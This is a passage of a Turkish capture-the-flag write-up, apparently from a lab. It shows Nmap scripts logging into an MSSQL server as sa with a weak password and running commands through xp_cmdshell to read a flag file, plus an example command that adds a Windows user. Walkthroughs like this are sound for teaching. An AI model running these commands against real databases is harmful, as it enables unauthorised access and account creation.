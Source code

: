 


```
root@kali:~#  nmap -p 1433 --script ms-sql-tables --script-args mssql.username=sa,mssql.password=manager 172.17.6.66

Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-15 08:42 EDT
Nmap scan report for 172.17.6.66
Host is up (0.17s latency).
PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-tables: 
|   [172.17.6.66:1433]
|       
|       Restrictions
|         Output restricted to 2 tables (see ms-sql-tables.maxtables)
|         Output restricted to 5 databases (see ms-sql-tables.maxdb)
|_        No filter (see ms-sql-tables.keywords)
MAC Address: 38:B1:DB:F8:04:A9 (Hon Hai Precision Ind.)

Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
```
Bizden istenen flag.txt dosyasına ulaşabilmemiz için  <code>ms-sql-cmdshell</code> betiği ile sisteme erişim sağlayalım.

 **ms-sql-xp-cmdshell script kullanımı**
 
><code>``nmap -p 445 --script ms-sql-discover,ms-sql-empty-password,ms-sql-xp-cmdshell <host>``
</code>

><code>``nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user test test /add" <host>``
</code> 

```
root@kali:~# nmap -p 1433 --script ms-sql-xp-cmdshell --script-args ms-sql-xp-cmdshell.cmd='type c:\flag_1.txt',mssql.username=sa,mssql.password=manager  172.17.6.66

Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-15 09:15 EDT
Nmap scan report for 172.17.6.66
Host is up (0.052s latency).
PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-xp-cmdshell: 
|   [172.17.6.66:1433]
|     Command: type c:\flag_1.txt
|       output
|       ======
|_      CT_{msSQL_3xpL01t}
MAC Address: 38:B1:DB:F8:04:A9 (Hon Hai Precision Ind.)

Nmap done: 1 IP address (1 host up) scanned in 0.89 seconds
```
Windows tarafında çalıştırılan <code>type c:\flag_1.txt</code> komutu ile dosyanın çıktısı görüntülendi.
